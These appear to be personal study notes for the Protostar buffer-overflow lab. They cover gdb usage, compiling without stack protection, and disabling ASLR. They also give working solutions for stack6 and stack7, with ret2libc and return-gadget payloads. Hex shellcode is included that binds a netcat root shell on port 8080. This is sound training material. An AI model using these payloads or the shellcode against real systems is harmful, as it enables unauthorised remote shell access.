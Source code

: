 #Compiling while avoiding gcc's protection mechanism (-fno-stack-protector)

gcc -ggdb -mpreferred-stack-boundary=4 -fno-stack-protector -o helloBufferOverflow helloBufferOverflow.c

##gdb commands
#Loading the program in gdb

gdb <executableProgramCode>

#Show the entire code loaded in gdb

(gdb)list

#Placing breakpoints on the function can be done using line numbers obtained from the list command

(gdb)break 7

(gdb)break <line Number>

#disassemble the functions 

(gdb)disas main

disas <functionName>

#Start the program execution

(gdb)run

#If a breakpoint is set and program gets paused at the breakpoint, for contiuning with the code, use 's'

(gdb)s

#Disassmble the code at a given memory location

(gdb)disas 0x0040059f

disas <Memory Location>

#Checking the stack memory layout after the program has been loaded with breakpoints

(gdb) x/8xw $rsp

#For the debugging to work properly, execute the below command

(gdb) set debug-file-directory

#For checking the value of rip or eip

(gdb) print /x $rip

#For locating system libc call

(gdb) p system


## For compiling the c code with gcc, make use of the below parameters when Segmentation Fault error is given.

The reason is that the shellcode may be in the non-executable memory.
gcc -fno-stack-protector -z execstack -O OutputFileName yourShellCode.c

##For checking is ASLR(Address Space Layout Randominzation) is implemented and disabling it

cat /proc/self/maps

echo 0 > /proc/sys/kernel/randomize_va_space


# For checking the memory dump after program execution
	ulimit -c unlimited  ---> generates a core file

		 and then crash the program.

# For checking the exact memory location address 

	attach the process id to gdb
		1. ps -aux | grep "stack6"
		2. gdb -p <pid>

****Stack6 Protostar Soln1*****
import struct
padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCC"

#strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh" ---> Gives the offset 0x11f3bf
#(gdb) info proc map  ---> For getting start memory address of /lib/libc-2.11.2.so call which is 0xb7e97000
# break main; (gdb) print exit ---> finding the address of exit function in libc 
system = struct.pack("I", 0xb7ecffb0)
exit = struct.pack("I", 0xb7ec60c0)
binsh = struct.pack("I", 0xb7e97000+0x11f3bf)

print padding + system + exit + binsh

(cat /tmp/test6;cat) | ./stack6
******Soln 2*******************
(python -c 'print "/bin/sh" + "\x00" + "A"*68 + "BBBB" + "\xb0\xff\xec\xb7" + "\xc0\x60\xec\xb7" + "\xac\xf7\xff\xbf"';cat) | ./stack6

\xac\xf7\xff\xbf ----> address of /bin/sh on the stack 
Found by attaching gdb to the process id of the running stack6 program
******************************

*****Stack7 Protostar Soln*******************
		> Soln1 :
			python -c 'print "A"*80 + "\x83\x83\x04\x08" + "\x7d\xf9\xff\xbf"' > /tmp/test
			
			1. Here we will redirect to a memory location which contains an instruction for ret. ret pops the address from the stack
			and loads it on the eip.
			2. \x83\x83\x04\x08 was found using user@protostar:/opt/protostar/bin$ objdump -d stack7 | less
			3. ret should pop the value on the top of the stack and put it in the eip register
			4. So next value should be an address to which we want to execute
			5. \x7d\xf9\xff\xbf is the address to a shell that we loaded in the environment variable using
				export deadShell=`blahblahblah`
			6. Locate the deadShell address using the below mentioned c code when a program(stack7 in our case) get loaded in the memory
				./find deadShell ./stack7     ; find is the name of the c executable

		> Soln2:
			python -c 'print "A"*80 + "\x92\x84\x04\x08" + "BBBBCCCC" + "\x7d\xf9\xff\xbf"' > /tmp/test

			1. Here we locate a memory location that contains pop, pop, ret sequence using objdump
				objdump -d stack7 | less
			2. Then place  \x92\x84\x04\x08 which is the location of the instruction start
			3. Because of the 2 consecutive pops, we add 8 bytes of random junk "BBBBCCCC"
			4. Finally path of the deadShell found using the c code.
			

#Simple Shellcode for opening a root shell access on port 8080 "https://www.exploit-db.com/exploits/14332/"

   export deadShell=`python -c 'print "\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23"'`

# Code to find memory addresses of the environmental variables when called by a program.

	#include <stdio.h>
	#include <stdlib.h>
	#include <string.h>

	int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }

        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}

#
